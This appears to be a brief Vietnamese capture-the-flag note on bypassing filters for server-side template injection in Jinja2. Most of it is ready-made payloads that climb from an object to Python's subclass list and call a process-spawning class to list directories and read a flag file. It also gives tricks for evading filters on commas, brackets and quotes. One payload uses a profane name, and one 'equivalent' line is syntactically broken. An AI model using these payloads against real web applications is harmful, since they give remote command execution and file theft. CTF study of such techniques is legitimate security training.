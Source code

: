 SSTI bypass ',' filter 1 cái gì đó như base subclass.... hay filter '' "" ....


Filter [], base 
Jinja2
{{ [0].\__class__["\__bASe__".lower()].\__subclasses__()[262]\(["ls","/home/NinjaWorld/chall"],stdout=-1).communicate() }}

Python bth
getattr("[0].\__class__","["\__bASe__".lower()].\__subclasses__()[262]\(["ls","/home/NinjaWorld/chall"],stdout=-1).communicate()")

Gọi 1 object bất kì như là [0] hay ['aaaa'], chuyển toàn bộ bằng hàm lower rồi ghép chữ


Filter dấu , 

{{ [ditmemayhuuduc].\__class__["\__bASe__".lower()].\__subclasses__()[262]\(\*(["cat#/home/NinjaWorld/chall/flaggggggggggggggggg.txt".split('#')]+[-1]+[None]+[None]+[-1])).communicate() }}

nhiều cách chr(44), \x2c, []+[], "a#b".split("#") > [a,b]

\*(["cat#/home/NinjaWorld/chall/flaggggggggggggggggg.txt".split('#')]+[-1]+[None]+[None]+[-1])) 
tương đương
(["cat","/home/NinjaWorld/chall/flaggggggggggggggggg.txt".split('#')"],stdout=-1)

